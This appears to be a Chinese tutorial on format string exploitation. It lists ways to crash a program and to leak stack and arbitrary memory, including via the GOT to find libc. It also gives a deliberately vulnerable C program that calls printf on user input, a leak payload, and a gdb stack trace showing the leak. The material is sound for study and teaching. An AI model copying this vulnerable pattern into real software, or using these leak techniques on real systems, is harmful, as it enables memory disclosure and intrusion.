


### 格式化字符串漏洞利用

1. 使程序崩溃。 %s 对应的参数地址不合法的概率较大，输入若干个 %s ，栈上不可能每个值都对应了合法的地址，总是会有某个地址可以使得程序崩溃
2. 查看进程内容。根据 `%d, %f, %08x`等输出栈上的内容
   1. 泄露栈内存
      - 获取某个变量的值
      - 获取某个变量对应地址的内存
   2. 泄露任意地址内存
      - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
      - 盲打，dump 整个程序，获取有用信息



#### 泄露内存

通常来说：

1. 利用 `%x` 来获取对应栈的内存，但建议使用 `%p`，可以不用考虑位数的区别
2. 利用 `%s` 来获取变量所对应地址的内容，只不过有零截断
3. 利用 `%order$x` 来获取指定参数的值，利用 `%order$s` 来获取指定参数对应地址的内容。order为一数字



```cpp
#include <stdio.h>  // leakmemory.c // gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
int main() {  // 编译时指定了为32bit 格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为参数
    char s[100];  // printf(s); 处: warning: format not a string literal and no format arguments [-Wformat-security]
    int a = 1, b = 0x22222222, c = -1;
    scanf("%s", s);                             // 在这里输入 %08x.%08x.%08x
    printf("%08x.%08x.%08x.%s\n", a, b, c, s);  // Output:  00000001.22222222.ffffffff.%08x.%08x.%08x
    printf(s);
    return 0;
}
```
- 输入为`%08x.%08x.%08x`时的栈，输出：
```assembly
$ gdb leakmemory
> b printf
> r # run
%08x.%08x.%08x      #   scanf("%s", s);   输入 %08x.%08x.%08x 后回车
Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28   # 在第1个 printf 处断下
─────────────────────────────────────────[ stack ]──── # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的栈
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp  # 返回地址
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s" # 格式化字符串的地址    printf的第 1 个参数  # 0x8048563
0xffffccf4│+0x08: 0x00000001      # a = 1     格式化字符串的第 1 个参数  printf的第 2 个参数
0xffffccf8│+0x0c: 0x22222222      # b = 0x22222222  格式化字符串的第 2 个参数  printf的第 3 个参数
0xffffccfc│+0x10: 0xffffffff      # c = -1    格式化字符串的第 3 个参数  printf的第 4 个参数
0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x" # 输入的字符串的地址 s="%08x.%08x.%08x" # 格式化字符串的第 4 个参数  printf的第 5 个参数 
0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x" # 下一个 printf 函数的格式化字符串 即下一个printf的第 1 个参数
0xffffcd08│+0x1c: 0x000000c2
> c # continue
00000001.22222222.ffffffff.%08x.%08x.%08x  # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的输出  s="%08x.%08x.%08x"
Breakpoint 1, __printf (format=0xffffcd10 "%08x.%08x.%08x") at printf.c:28 # 在第2个 printf 处断下
─────────────────────────────────────────[ stack ]────  # printf(s); 的栈
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x" # 格式化字符串的地址 printf的第 1 个参数 0xffffcd10
0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x" # 栈上的 0xffffcd04 及其后的数值分别作为第1,2,3个参数按int型解析，分别输出
0xffffcd08│+0x0c: 0x000000c2                 # 被解析的第2个int型
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10 # 被解析的第3个int型
```